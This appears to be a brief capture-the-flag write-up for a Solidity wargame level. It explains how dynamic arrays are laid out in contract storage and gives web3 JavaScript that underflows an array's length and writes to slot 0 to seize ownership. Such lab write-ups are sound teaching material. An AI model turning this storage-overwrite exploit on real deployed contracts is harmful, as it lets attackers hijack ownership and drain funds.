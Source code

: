 dynamic arrays store the length of the array in the storage slot, and the items are placed beginning at slot `soliditySha3(slot number)`.
we can overflow the array index to access memory slot 0 by accesing index `2 ** 256 - 1 - soliditySha3(slot number) + 1` and overwrite the owner.

```
const arraySlot = web3.utils.soliditySha3('0x0000000000000000000000000000000000000000000000000000000000000001')
const offset = new BN('2').pow(new BN('256')).sub(web3.utils.toBN(arraySlot));

const data = await web3.eth.getStorageAt(instance, 0);
const newData = data.slice(0, 26) + player.slice(2, player.length);

await contract.retract(); // array length is overflown so we can skip bounds check

await contract.revise(offset, newData);
```

[1] https://enderspub.kubertu.com/understand-solidity-storage-in-depth

